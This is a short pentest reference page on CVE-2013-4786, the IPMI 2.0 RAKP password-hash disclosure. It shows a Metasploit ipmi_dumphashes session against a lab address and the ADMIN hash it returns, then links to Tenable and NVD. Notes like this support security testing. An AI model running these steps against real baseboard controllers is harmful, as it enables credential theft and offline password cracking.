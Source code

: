 ```yaml
---
title : "CVE-2013-4786"
# pre : ' '
description : "The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC."
date : 2020-05-06T09:32:00+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2013-4786 - IPMI Password hash retrieval

### Exploit

```plain
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...SNIP...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### URL list

* [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
